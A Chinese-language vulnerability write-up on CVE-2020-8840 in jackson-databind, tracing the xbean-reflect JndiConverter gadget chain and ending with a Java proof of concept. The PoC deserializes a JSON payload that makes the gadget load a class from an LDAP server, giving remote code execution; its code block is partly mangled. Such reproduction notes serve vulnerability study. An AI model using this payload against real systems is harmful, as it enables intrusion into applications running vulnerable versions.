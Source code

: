 ```yaml
---
title: "（CVE-2020-8840）FasterXML jackson-databind 远程代码执行漏洞"
id: zhfly2930
---
```


# （CVE-2020-8840）FasterXML jackson-databind 远程代码执行漏洞

## 一、漏洞简介

`FFasterXML/jackson-databind`是一个用于JSON和对象转换的Java第三方库，可将Java对象转换成json对象和xml文档，同样也可将json对象转换成Java对象。

此次漏洞中攻击者可利用`xbean-reflect`的利用链触发JNDI远程类加载从而达到远程代码执行。

## 二、漏洞影响

*   jackson-databind 2.0.0 – 2.9.10.2
*   经验证fastjson在开启了autoType功能的情况下，影响最新的fastjson v1.2.62版本

## 三、复现过程

可以在git提交记录中清楚看到利用的具体类

![image](../img/8b000d33e4f4131c2c4d329e73daadb3.png)

分析下利用链，通过传进参数`asText`，触发setter，`setAsText()`函数

![image](../img/efd24da3f1668d295eda6e504d8cf575.png)

随后跟进`toObject()`函数

![image](../img/854b733b32ccc1530ad0fc4e3a7b190c.png)

最终进到`JndiConverter`重写的`toObjectImp()`函数

![image](../img/abfad8319c41a0b9284f16f795032d43.png)

此时出现经典的JNDI注入，text 刚好就是我们传进的asText，我们可控，从而达到命令执行目的

![image](../img/4156a3a00b6e13b7a686abe538de6df3.png)

### poc

```
import com.fasterxml.jackson.databind.ObjectMapper;
import java.io.IOException;

public class Poc {

public static void main(String args[]) {

ObjectMapper mapper = new ObjectMapper();

```
 mapper.enableDefaultTyping();

    String json = "[\"org.apache.xbean.propertyeditor.JndiConverter\", {\"asText\":\"ldap://localhost:1389/ExportObject\"}]";

    try {
        mapper.readValue(json, Object.class);
    } catch (IOException e) {
        e.printStackTrace();
    }

} 
``` `}` 
```